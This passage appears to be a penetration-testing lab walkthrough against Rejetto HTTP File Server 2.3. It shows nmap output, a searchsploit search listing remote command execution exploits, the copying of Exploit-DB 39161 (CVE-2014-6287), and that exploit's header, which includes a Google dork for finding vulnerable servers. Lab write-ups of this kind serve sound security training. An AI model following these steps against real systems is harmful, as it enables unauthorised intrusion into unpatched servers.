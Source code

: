 ```
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.76 seconds
```

HttpFileServer 2.3

```
root@attackdefense:~# searchsploit Http File Server 2.3
----------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                       |  Path
                                                                                                                                                     | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                       | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                  | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                  | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                             | exploits/windows/webapps/34852.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```

```
root@attackdefense:~# cd Desktop/
root@attackdefense:~/Desktop# pwd
/root/Desktop
root@attackdefense:~/Desktop# searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/Desktop/39161.py
```

[Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)

```
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
```